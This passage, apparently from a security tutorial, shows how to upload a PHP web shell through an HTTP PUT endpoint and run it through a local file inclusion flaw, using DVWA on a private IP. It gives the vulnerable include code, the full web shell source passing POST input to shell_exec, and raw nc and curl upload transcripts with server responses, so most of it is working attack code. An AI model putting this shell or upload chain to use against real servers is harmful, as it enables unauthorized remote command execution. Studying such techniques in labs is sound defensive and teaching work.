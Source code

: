 Now if you view “myfile” our payload should be nice written.

Suppose you have a local file inclusion situation, in cases like that we can include our newly written file using PUT
This is an example of local file inclusion. I’ll be using DVWA to demonstrate this.

```
<?php
    echo "File included: ".$_REQUEST["page"]."&lt;br&gt;";
    $file =  $_REQUEST["page"];
    include $file;
?>
```

Suppose we want to upload a simple web shell we can do it like the following
```
% wc -m shell.php
189 shell.php

% nc 192.168.1.5 80
PUT /put.php HTTP/1.0
Content-Type: text/html
Content-Length: 189

<?php

print '<form method="post">
Command: <input type="text" name="__"><br>
<input type="submit">
</form>';

if(isset($_POST["__"]))
	print '<pre>'.shell_exec($_POST["__"]).'</pre>';

?>
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2015 07:39:42 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Content-Length: 0
Connection: close
Content-Type: text/html
```

After that include our “myfile” and you can execute commands on the server.

You can also use curl to upload a file using PUT easily.

```
% curl http://192.168.1.5/put.php --upload-file shell.php -v
* About to connect() to 192.168.1.5 port 80 (#0)
*   Trying 192.168.1.5...
* connected
* Connected to 192.168.1.5 (192.168.1.5) port 80 (#0)
> PUT /put.php HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.1.5
> Accept: */*
> Content-Length: 189
> Expect: 100-continue
>
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 100 Continue
* additional stuff not fine transfer.c:1037: 0 0
* We are completely uploaded and fine
* HTTP 1.1 or later with persistent connection, pipelining supported
```